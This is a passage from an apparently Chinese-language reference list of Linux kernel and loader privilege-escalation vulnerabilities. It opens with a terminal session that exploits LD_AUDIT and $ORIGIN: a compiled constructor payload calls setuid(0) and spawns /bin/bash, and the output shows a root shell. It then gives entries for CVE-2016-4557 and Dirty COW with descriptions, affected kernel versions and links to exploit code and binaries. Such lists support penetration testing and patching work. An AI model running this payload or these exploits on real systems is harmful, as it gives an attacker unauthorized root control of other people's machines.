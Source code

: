     $ cat > payload.c
    void __attribute__((constructor)) init()
    {
    setuid(0);
    system("/bin/bash");
    }
    ^D
    $ gcc -w -fPIC -shared -o /tmp/exploit payload.c
    $ ls -l /tmp/exploit
    -rwxrwx--- 1 taviso taviso 4.2K Oct 15 09:22 /tmp/exploit*
    # 通过LD_AUDIT强制/proc中的链接加载$ORIGIN

    $ LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
    sh-4.1# whoami
    root
    sh-4.1# id
    uid=0(root) gid=500(taviso)
    ```

**CVE-2016-4557**
- 简介

    Linuxkernel 是美国 Linux 基金会发布的开源操作系统 Linux 所使用的内核。NFSv4implementation 是其中的一个分布式文件系统协议。Linuxkernel4.5.5 之前版本的 kernel/bpf/verifier.c 文件中的‘replace_map_fd_with_map_ptr’函数存在安全漏洞，该漏洞源于程序没有正确维持 fd 数据结构体。本地攻击者可借助引用不正确文件描述符的 BPF 指令利用该漏洞获取权限或造成拒绝服务（释放后重用）。

- 影响范围

    - Linux kernel <= 4.5.4

- POC | Payload | exp
    - https://www.exploit-db.com/exploits/39772
    - https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip

**CVE-2016-5195 脏牛 Dirty COW**
- 简介

    2016年10月18日，Phil Oester 提交了隐藏长达9年之久的“脏牛漏洞（Dirty COW）”0day 漏洞，该漏洞是 Linux 内核的内存子系统在处理写时拷贝(Copy-on-Write)时存在条件竞争漏洞，导致可以破坏私有只读内存映射。黑客可以获取低权限的本地用户后，利用此漏洞获取其他只读内存映射的写权限，进一步获取 root 权限。

- 影响范围
    - Linux kernel < 4.8.3

- 文章
    - [[翻译]从内核角度分析 Dirty Cow 原理](https://bbs.pediy.com/thread-218797.htm)

- POC | Payload | exp
    - [scumjr/dirtycow-vdso](https://github.com/scumjr/dirtycow-vdso)
    - [dirtycow/dirtycow.github.io](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)
    - [gbonacini/CVE-2016-5195](https://github.com/gbonacini/CVE-2016-5195)
    - https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
    - https://www.exploit-db.com/exploits/40616
    - https://www.exploit-db.com/exploits/40847

**CVE-2017-1000253**
- 简介

